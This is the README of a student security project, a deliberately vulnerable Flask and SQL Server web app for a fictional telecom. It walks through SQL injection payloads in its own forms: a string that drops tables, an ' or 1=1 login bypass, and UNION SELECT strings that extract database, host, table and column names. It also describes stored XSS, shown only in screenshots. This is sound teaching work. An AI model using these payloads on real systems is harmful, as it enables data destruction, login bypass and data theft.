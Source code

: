 # Computer Security - Final Project

In this project, we developed a web-based imaginary communications company called Comunication_LTD. This company markets Internet packages and has a database that includes, among other things, information about the company's customers, various packages, and the sectors to which it markets its products.

We used the following technologies in our project:
| Database  | Web framework | Virtualization | Template engine |
| :---:   | :---: | :---: | :---: |
| Microsoft SQL 2022 | Flask   | Docker   | Jinja2 |

* The UI used plain HTML and CSS (no CSS frameworks).

## Switch Between The Vulnerable And Safe Codes
This project has two branches. The first one has vulnerable code (for SQL injection and XSS attacks), and the second one is not vularable and shows the solutions to those attacks.

You can find both of those versions in this repo:

* Invulnerable/Safe Version - https://github.com/eranbabayov/final_course_project/tree/main

* Vulnerable/Unsafe Version - https://github.com/eranbabayov/final_course_project/tree/hacked_version

## Walkthrough / Examples
### Sql Injections
#### Register
Since there is no real information displayed on the screen from the registration (aside from maybe the username, which will be a little harder or near impossible to utilize), we can use an example that allows us to insert other statments, for example, dropping a table.

We can write the following string in the username:
```bash
a','b','c'); DROP TABLE user_sectors;  DROP TABLE password_history; DROP TABLE user_info; DROP TABLE clients; DROP TABLE users;--
```
![register](https://github.com/eranbabayov/final_course_project/assets/55022020/fe51f12b-dc3e-466d-b427-5e725f62049a)

This will cause the server to show an error (because it's trying to insert things into a dropped table), but we can use `sqlcmd` to verify and see that the database isn't accessible and the tables were indeed dropped.
![error_server](https://github.com/eranbabayov/final_course_project/assets/55022020/7aa6a237-6291-4e7d-b8b7-c05c10cada76)
![no_tables](https://github.com/eranbabayov/final_course_project/assets/55022020/097ca268-d644-46ca-9a07-196379bf8aca)

#### Login
For the login form, we can use a SQL statement to login to any user.
We can utilize this example string to login to the first user in the database:
```bash
' or 1=1 --
```
![login_try](https://github.com/eranbabayov/final_course_project/assets/55022020/776824a6-a129-4892-947d-961805997ad3)
![login_done](https://github.com/eranbabayov/final_course_project/assets/55022020/522a6c49-335c-4db5-912c-eca00c8a0218)

#### Dashboard
In the dashboard, we actually have the option to search for a client and display the client information on the screen. We can utilize this to extract information from the database. using a clever select statement with union (the number of nulls is there to match the number of columns in the client table and can be easily found by just bruteforcing it one by one). 

Here are a few examples of things you can insert and information you can extract
* The database name:
```bash
a' UNION ALL SELECT NULL, NULL, NULL, NULL,  NULL, NULL, NULL, NULL,DB_NAME();--
```
![db_name](https://github.com/eranbabayov/final_course_project/assets/55022020/8bf70a3a-d2c2-4f72-8882-498fd6a8b578)

* The host names:
```bash
a' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,(HOST_NAME());--
```
* The columns names:
```bash
a' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,(SELECT column_name + ', ' AS 'data()' FROM information_schema.columns FOR XML PATH(''));--
```
* The tables names:
```bash
a' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,(SELECT name  + ', ' AS 'data()' FROM CommunicationLTD..sysobjects WHERE xtype = 'U' FOR XML PATH(''));--
```
![tables_name](https://github.com/eranbabayov/final_course_project/assets/55022020/698ce64b-3a55-43e6-9846-02fc1bbe4acb)


### Xss Injection
In this version of the code, by inserting a new client, we can actually insert client-side scripts into the web page. That script will be run by everyone that searches for a specific user with matching information (or searches for all users).

Here's a detailed example of this attack:

![adding_client](https://github.com/eranbabayov/final_course_project/assets/55022020/c6c78080-b548-4505-b9b4-e44e20b3c3b3)
![xssed](https://github.com/eranbabayov/final_course_project/assets/55022020/28ece52d-ec33-48cc-8948-39de6065eb5d)
![xss_in_table](https://github.com/eranbabayov/final_course_project/assets/55022020/558e3fde-cf8a-46bb-b59b-0eb39fe14302)

## Setup / Run
### Prerequisites

Docker and its [prerequisites](https://docs.docker.com/desktop/install/windows-install/#system-requirements) are installed and **running**
```bash
docker ps
```

### Setup / Run
> The setup of the program or re-running can be done automatically with the same command,`docker compose up`.

1. Change your desired password in the `.env` file. Make sure your password meets [Microsoft's Password Policy](https://learn.microsoft.com/en-us/sql/relational-databases/security/password-policy?view=sql-server-ver16#password-complexity).

2. Run the `docker-compose.yml` file with the following command:
```bash
docker compose up
```
